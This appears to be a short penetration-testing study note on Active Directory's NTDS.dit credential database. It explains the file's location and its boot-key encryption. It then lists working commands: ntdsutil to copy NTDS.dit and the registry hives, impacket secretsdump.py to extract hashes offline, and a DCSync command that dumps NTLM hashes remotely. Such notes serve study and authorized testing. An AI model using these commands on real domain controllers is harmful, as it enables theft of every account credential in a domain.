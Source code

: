 - The `NTDS` (New Technology Directory Services) is a database that contains all the AD data.
- It has:
	- Schema Table
	- Link Table
	- Data Type
- The database is located at `C:\Windows\NTDS\ntds.dit` in the domain controller.
- This file is locked.
- Decrypting the NTDS requires the system boot key, which is stored in the SYSTEM hive or filesystem.
### Offline Dump
- When we have administrative access to the domain controller, but we don't have administrator credentials.
- We require a copy of the:
	- NDTS.dit
	- SYSTEM
	- SECURITY
- We can make a copy of the all these files using `ntdsutil.exe` command line tool.
```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full C:\temp' q q"
```
- Credentials can be dumped with impacket's `secretsdump.py`
```bash
secretsdump.py -security <security> -system <system> -ntds <ntds> local
```
### Credentials dump
- If we have administrator credentials, we can perform [[DC Sync]] using secretsdump.py:
```powershell
secretsdump.py -just-dc-ntlm mydomain.local/adminuser@10.10.10.10
```